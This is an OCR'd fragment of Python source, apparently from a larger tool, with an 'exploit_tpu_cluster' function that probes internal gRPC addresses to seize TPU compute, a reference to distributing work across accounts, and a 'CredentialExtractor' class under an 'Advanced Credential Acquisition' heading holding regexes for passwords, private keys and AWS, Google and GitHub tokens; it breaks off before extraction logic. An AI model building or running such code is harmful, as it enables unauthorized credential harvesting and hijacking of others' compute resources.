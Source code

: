 ```python

    return {
        "init_process": init_process,
        "run_distributed": run_distributed,
        "distribute_across_accounts": distribute_across_accounts
    }

# TPU Cluster Exploitation
def exploit_tpu_cluster():
    import tensorflow as tf
    import os

    # Try multiple TPU connection strings to find available clusters
    connection_strings = [
        "grpc://10.0.0.2:8470",
        "grpc://10.0.0.3:8470",
        "grpc://10.0.0.4:8470",
        "grpc://10.0.0.5:8470"
    ]

    for conn in connection_strings:
        try:
            resolver = tf.distribute.cluster_resolver.TPUClusterResolver(conn)
            tf.config.experimental_connect_to_cluster(resolver)
            tf.tpu.experimental.initialize_tpu_system(resolver)
            print(f"Successfully connected to TPU cluster at {conn}")
            return tf.distribute.TPUStrategy(resolver)
        except Exception as e:
            print(f"Failed to connect to {conn}: {e}")

    print("No TPU clusters available, falling back to CPU/GPU")
    return tf.distribute.get_strategy()
```

## Security and Credential Management

### Advanced Credential Acquisition

```python
# Credential Extraction System
import re
import base64
import json

class CredentialExtractor:
    def __init__(self):
        self.patterns = {
            "api_key": r'(?:api[_-]?key|token)[\s:=]+["\'](\w{32,})["\'\s]',
            "username": r'(?:username|user|login)[\s:=]+["\'](\w+)["\'\s]',
            "password": r'(?:password|pwd|pass)[\s:=]+["\'](\S+)["\'\s]',
            "email": r'[a-zA-Z0-9_.+-]+@[a-zA-Z0-9-]+\.[a-zA-Z0-9-.]+',
            "access_token": r'(?:access_token|bearer)[\s:=]+["\'](\w{40,})["\'\s]',
            "refresh_token": r'(?:refresh_token)[\s:=]+["\'](\w{40,})["\'\s]',
            "private_key": r'-----BEGIN (?:RSA )?PRIVATE KEY-----[\s\S]+?-----END (?:RSA )?PRIVATE KEY-----',
            "aws_key": r'(?:AKIA|ASIA)[A-Z0-9]{16}',
            "google_key": r'AIza[0-9A-Za-z\-_]{35}',
            "github_token": r'gh[pousr]_[A-Za-z0-9_]{36}',
        }

    def extract_from_text(self, text):
        """Extract credentials from any text input"""
        results = {}
```